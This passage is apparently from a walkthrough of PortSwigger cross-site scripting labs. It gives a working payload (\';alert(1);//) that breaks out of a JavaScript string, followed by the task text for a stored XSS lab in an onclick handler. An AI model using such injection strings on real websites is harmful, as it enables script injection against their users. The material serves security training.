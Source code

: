 A payload that works is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
\';alert(1);//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/dcf198d2272dd53a3d73ee7a4d6bcd1d.png)

23 Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
===========================================================================================================================

This lab contains a stored cross-site scripting vulnerability in the comment
functionality.

To solve this lab, submit a comment that calls the alert function when the
comment author name is clicked.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

![img](media/2943e2a232199aa56e4b52e54823e9a4.png)
